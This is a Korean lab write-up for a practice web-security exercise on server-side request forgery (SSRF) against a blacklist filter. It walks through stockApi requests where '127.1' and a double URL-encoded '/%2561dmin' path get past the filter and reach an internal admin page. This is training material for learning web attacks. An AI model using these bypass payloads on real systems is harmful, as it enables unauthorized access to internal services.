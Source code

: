 
# 4. [실무자] 블랙리스트 기반 입력 필터를 사용하는 SSRF 

> 127.1 , 2중 url인코딩 

1. 재고관리 조회 url 
```
POST /product/stock HTTP/2

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

2. 127.0.0.1 호출 시도 
	- block 처리 됨 , localhost도 동일
```
stockApi=http://127.0.0.1/

->

HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 51

"External stock check blocked for security reasons"
```

3. 127.1 우회 시도 
	- 정상 응답 조회 확인 
```
stockApi=http://127.1/

->

HTTP/2 200 OK
메인페이지 
```

4. 127.1/admin 페이지 접근 시도
```
stockApi=http://127.1/admin

->

"External stock check blocked for security reasons"
```

5. 이중 url인코딩으로 admin우회 시도
```
stockApi=http://127.1/%2561dmin

->

admin페이지 접근 성공
```
